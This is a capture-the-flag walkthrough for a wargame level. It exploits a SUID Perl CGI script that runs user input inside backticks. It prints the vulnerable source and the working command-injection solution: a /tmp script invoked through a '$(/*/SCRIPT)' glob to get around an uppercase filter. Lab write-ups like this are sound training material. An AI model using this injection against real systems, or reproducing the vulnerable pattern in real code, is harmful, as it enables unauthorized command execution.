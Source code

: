 Start by listing the files in the current directory:
```bash
ls -la
```
Output:
```bash
total 16
dr-xr-x---+ 1 level12 level12  120 Mar  5  2016 .
d--x--x--x  1 root    users    340 Aug 30  2015 ..
-r-x------  1 level12 level12  220 Apr  3  2012 .bash_logout
-r-x------  1 level12 level12 3518 Aug 30  2015 .bashrc
-rwsr-sr-x+ 1 flag12  level12  464 Mar  5  2016 level12.pl
-r-x------  1 level12 level12  675 Apr  3  2012 .profile
```

We notice the `level12.pl` file is a Perl script with the SUID bit set and owned by `flag12`, which means we can potentially run it to gain `flag12`'s privileges.

Reading the source code:
```bash
cat level12.pl
```
Output:
```perl
#!/usr/bin/env perl
# localhost:4646
use CGI qw{param};
print "Content-type: text/html\n\n";

sub t {
  $nn = $_[1];
  $xx = $_[0];
  $xx =~ tr/a-z/A-Z/; 
  $xx =~ s/\s.*//;
  @output = `egrep "^$xx" /tmp/xd 2>&1`;
  foreach $line (@output) {
      ($f, $s) = split(/:/, $line);
      if($s =~ $nn) {
          return 1;
      }
  }
  return 0;
}

sub n {
  if($_[0] == 1) {
      print("..");
  } else {
      print(".");
  }    
}

n(t(param("x"), param("y")));
```
The script is a CGI application running on `localhost:4646`. It does the following:
- Takes two parameters `x` and `y`.
- Transforms `x` to uppercase and strips everything after the first space.
- Greps `x` from `/tmp/xd`, and for each match, if the second part (after the colon) matches `y`, prints `..`.

This implies we can try command injection by injecting something in the `x` parameter that gets evaluated inside backticks.

However, because `x` is uppercased and trimmed after a space, we must bypass these filters.

We create a file with a shell command:
```bash
echo 'getflag > /tmp/flag12' > /tmp/SCRIPT
chmod +x /tmp/SCRIPT
```

We then execute the Perl script through curl using a path that won’t be altered by the uppercase and space removal:
```bash
curl 'localhost:4646?x=$(/*/SCRIPT)&y=whatever'
```

- `$(/*/SCRIPT)` expands to `/tmp/SCRIPT` since `/tmp` matches `/*/`.
- The command gets evaluated by the backticks in the script.
- `getflag` is executed with `flag12` privileges and the output goes to `/tmp/flag12`.

We can now read the flag:
```bash
cat /tmp/flag12
```

And we get the next flag.

